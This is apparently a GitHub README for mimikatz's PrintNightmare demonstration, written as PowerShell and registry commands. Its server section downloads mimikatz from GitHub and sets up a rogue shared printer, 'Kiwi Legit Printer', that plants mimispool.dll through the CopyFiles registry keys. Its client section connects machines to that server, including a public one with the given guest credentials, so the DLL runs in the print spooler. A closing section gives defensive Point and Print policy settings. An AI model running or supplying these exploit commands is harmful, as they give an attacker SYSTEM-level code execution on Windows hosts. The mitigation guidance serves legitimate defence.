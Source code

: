 ## PowerShell commands

### Server

#### install
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName

Invoke-WebRequest -Uri 'https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip' -OutFile '.\mimikatz_trunk.zip'
Expand-Archive -Path '.\mimikatz_trunk.zip' -DestinationPath '.\mimikatz_trunk'

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null

```

#### uninstall
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'

Remove-Printer       -Name $printerName
Start-Sleep -Seconds 2
Remove-PrinterDriver -Name 'Generic / Text Only'

Remove-Item -Force -Path ($drivers  + '\x64\3\mimispool.dll')
Remove-Item -Force -Path ($drivers  + '\W32X86\3\mimispool.dll')
Remove-Item -Force -Path ($system32 + '\mimispool.dll')

```

### Client

#### Any computer with explicit credential to `printnightmare.gentilkiwi.com`
```
$serverName  = 'printnightmare.gentilkiwi.com'
$username    = 'gentilguest'
$password    = 'password'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName
$credential = (New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString -AsPlainText -String $password -Force)))

Remove-PSDrive -Force -Name 'KiwiLegitPrintServer' -ErrorAction SilentlyContinue
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue

New-PSDrive -Name 'KiwiLegitPrintServer' -Root ('\\' + $serverName + '\print$') -PSProvider FileSystem -Credential $credential | Out-Null
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
Remove-PSDrive -Force -Name 'KiwiLegitPrintServer'
# mimispool still in spool\drivers

```

#### Computer in domain (single sign on with current user to print server)
```
$serverName  = 'print.lab.local'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName

Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
# mimispool still in spool\drivers

```

## Protect
_to adapt to your environment_

**Please, do not set `RestrictDriverInstallationToAdministrators` to `0` without these settings**

### Registry

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"1"="/your really legit servers or invalid entry !/"
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v 1 /t REG_SZ /d "/your really legit servers or invalid entry !/"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1
```

### Registry with real printer servers and allowing non-administrators to install package P&P drivers & printers

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"srv1.fqdn"="srv1.fqdn"
"srv2.fqdn"="srv2.fqdn"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint]
"RestrictDriverInstallationToAdministrators"=dword:00000000
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv1.fqdn" /t REG_SZ /d "srv1.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv2.fqdn" /t REG_SZ /d "srv2.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /f /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 0
```

### GPO / Local

In `Computer Configuration`, `Administrative Templates`, `Printers`, enable:
- `Only use Package Point and Print`
- `Package Point and Print - Approved servers`

![image](https://user-images.githubusercontent.com/2307945/129240741-b2a0ba14-6858-4c3f-ad07-07fa55efca29.png)

### GPO with real printer servers and allowing non-administrators to install package P&P drivers & printers

Same configuration as previously - _with real printer server names this time_ - but do not forget to add registry key `RestrictDriverInstallationToAdministrators` to `0`

![image](https://user-images.githubusercontent.com/2307945/133833820-a66b3ffd-a3aa-43a2-a1bf-14581a2a7492.png)
